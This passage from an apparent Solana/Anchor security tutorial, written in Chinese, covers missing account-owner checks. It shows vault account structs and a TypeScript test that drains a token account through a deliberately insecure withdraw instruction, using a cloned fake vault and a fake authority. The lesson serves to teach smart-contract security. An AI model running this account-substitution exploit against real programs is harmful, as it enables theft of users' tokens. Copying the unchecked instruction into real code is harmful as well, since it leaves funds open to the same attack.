 ```rust
#[derive(Accounts)]
pub struct InitializeVault<'info> {
    #[account(
        init,
        payer = authority,
        space = 8 + 32 + 32,
    )]
    pub vault: Account<'info, Vault>,
    pub token_account: Account<'info, TokenAccount>,
    #[account(mut)]
    pub authority: Signer<'info>,
    pub system_program: Program<'info, System>,
}

#[account]
pub struct Vault {
    token_account: Pubkey,
    authority: Pubkey,
}
```

### 2. 测试 `insecure_withdraw` 指令

测试文件包括一个测试，使用提供者钱包作为 `authority` 调用 `owner_check` 程序的 `initialize_vault` 指令，然后将 100 个代币铸造到代币账户。

测试文件还包括一个测试，调用 `clone` 程序的 `initialize_vault` 指令，初始化一个假的 `vault` 账户，存储相同的 `tokenPDA` 账户，但是一个不同的 `authority`。请注意，这里不会铸造新的代币。

我们将添加一个测试来调用 `insecure_withdraw` 指令。这个测试应该传入克隆的保险库和虚假的授权。由于没有所有者检查来验证 `vaultClone` 账户是否由 `owner_check` 程序拥有，指令的数据验证检查将通过，并显示 `walletFake` 为有效的授权。然后，代币将从 `tokenPDA` 账户提取到 `withdrawDestinationFake` 账户。

```tsx
describe("owner-check", () => {
	...
    it("Insecure withdraw", async () => {
    const tx = await program.methods
        .insecureWithdraw()
        .accounts({
            vault: vaultClone.publicKey,
            tokenAccount: tokenPDA,
            withdrawDestination: withdrawDestinationFake,
            authority: walletFake.publicKey,
        })
        .transaction()

        await anchor.web3.sendAndConfirmTransaction(connection, tx, [walletFake])

        const balance = await connection.getTokenAccountBalance(tokenPDA)
        expect(balance.value.uiAmount).to.eq(0)
    })

})
```
